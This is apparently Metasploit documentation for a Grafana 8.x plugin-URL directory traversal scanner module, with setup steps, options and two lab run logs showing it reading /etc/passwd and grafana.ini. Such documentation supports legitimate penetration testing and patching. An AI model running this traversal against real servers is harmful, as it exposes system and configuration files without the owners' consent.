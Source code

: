 ## Vulnerable Application

Grafana versions 8.0.0-beta1 through 8.3.0 prior to 8.0.7, 8.1.8, 8.2.7, or 8.3.1 are vulnerable to directory traversal
through the plugin URL.  A valid plugin ID is required, but many are installed by default.

### Vulnerable Docker Image

```docker run -p 3000:3000 --name grafana bitnami/grafana:8.3.0```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/grafana_plugin_traversal`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should retrieve a file.

## Options

### FILEPATH

The path to the file to read.  Defaults to `/etc/grafana/grafana.ini`

### DEPTH

The depth of `../` needed to get to the file system root.  Defaults to `13`

### PLUGINS_FILE

The plugin file to use.  Defaults to `data/wordlists/grafana_plugins.txt`

## Scenarios

### Grafana 8.3.0 on Ubuntu 20.04

```
[*] Processing grafana.rb for ERB directives.
resource (grafana.rb)> use auxiliary/scanner/http/grafana_plugin_traversal
resource (grafana.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (grafana.rb)> set verbose true
verbose => true
resource (grafana.rb)> set filepath /etc/passwd
filepath => /etc/passwd
resource (grafana.rb)> run
[+] Detected vulnerable Grafina: 8.3.0
[*] Attempting plugin: alertlist
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:112:117::/usr/share/grafana:/bin/false

[+] 1.1.1.1:3000 - File saved in: /home/metasploit/.msf4/loot/20211215162817_default_1.1.1.1_grafana.loot_096504.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Grafana 8.3.0 on Docker

Using `docker run -p 3000:3000 --name grafana bitnami/grafana:8.3.0`

The `grafana.ini` file is located in `/opt/bitnami/grafana/conf/grafana.ini`

```
[*] Processing grafana.rb for ERB directives.
resource (grafana.rb)> use auxiliary/scanner/http/grafana_plugin_traversal
resource (grafana.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (grafana.rb)> set verbose true
verbose => true
resource (grafana.rb)> set filepath /opt/bitnami/grafana/conf/grafana.ini
filepath => /opt/bitnami/grafana/conf/grafana.ini
resource (grafana.rb)> run
[+] Detected vulnerable Grafina: 8.3.0
[*] 127.0.0.1 - Progress   0/40 (0.0%)
[*] Attempting plugin: alertlist
[+] alertlist was found and exploited successfully
[+] ##################### Grafana Configuration Example #####################
#
# Everything has defaults so you only need to uncomment things you want to
# change

# possible values : production, development
;app_mode = production

# instance name, defaults to HOSTNAME environment variable value or hostname if HOSTNAME var is empty
;instance_name = ${HOSTNAME}

```
...snip...
```

# Experimental feature
;use_browser_locale = false

# Default timezone for user preferences. Options are 'browser' for the browser local timezone or a timezone name from IANA Time Zone database, e.g. 'UTC' or 'Europe/Amsterdam' etc.
;default_timezone = browser

[expressions]
# Enable or disable the expressions functionality.
;enabled = true

[geomap]
# Set the JSON configuration for the default basemap
;default_baselayer_config = `{
;  "type": "xyz",
;  "config": {
;    "attribution": "Open street map",
;    "url": "https://tile.openstreetmap.org/{z}/{x}/{y}.png"
;  }
;}`

# Enable or disable loading other base map layers
;enable_custom_baselayers = true

[+]127.0.0.1:3000 - File saved in: /home/metasploit/.msf4/loot/20211219160839_default_127.0.0.1_grafana.loot_370996.ini
```